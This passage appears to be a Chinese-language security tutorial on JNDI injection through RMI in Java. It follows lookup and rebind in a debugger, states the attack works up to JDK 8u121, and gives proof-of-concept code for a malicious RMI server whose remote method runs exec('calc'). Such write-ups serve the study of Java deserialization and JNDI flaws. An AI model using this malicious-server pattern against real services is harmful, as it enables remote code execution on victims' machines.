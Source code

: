 实现和RMIServer,RMIClient一样的效果

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20240925143636081.png)

###  源码分析

JNDI绑定RMI，实际上只是做了个封装，还是通过RMI来实现的。也就是说对RMI的攻击同样对JNDI绑定RMI的环境奏效

JNDIServer打个断点

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20240925144618924.png)

跟着你就发现，来到了RegistryImpl_Stub.rebind()

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20240925144730278.png)

同理，在RMIClient打个断点

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20240925144820417.png)

来到了RegistryImpl_Stub.lookup()

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20240925144906185.png)

完美符合RMI步骤

RMI能打的都能打，只要在版本内

### 恶意RMI Server

JDK<=8u121

但这里还有个问题，假如说服务器有代码长JNDIClient这样，调用远程对象的方法，再假如lookup的参数我们可以控制

```java
    InitialContext initialContext = new InitialContext();
    RemoteInterface remoteObject = (RemoteInterface) initialContext.lookup("rmi://127.0.0.1:1099/remoteImpl");
    remoteObject.sayHello("JNDI");
```

是不是我们就能起一个恶意Server，让这个lookup加载我们的恶意远程类。No，因为RMI需要客户端和服务端拥有同一远程接口。比如这个case，我们开盲盒没办法知道RemoteInterface的代码。当然如果你知道的话，就能这么打

攻击机：

需要有RMIServer、和服务器相同的RemoteInterface接口。

另外多出一个恶意对象和恶意JNDI服务

```java
public class RuntimeEvil extends UnicastRemoteObject implements RemoteInterface{
    public RuntimeEvil() throws RemoteException {}

    @Override
    public String sayHello(String name) throws RemoteException {
        try {
            Runtime.getRuntime().exec("calc");
        } catch (IOException e) {
            throw new RuntimeException(e);
        }
        return "Hello " + name;
    }
}
```
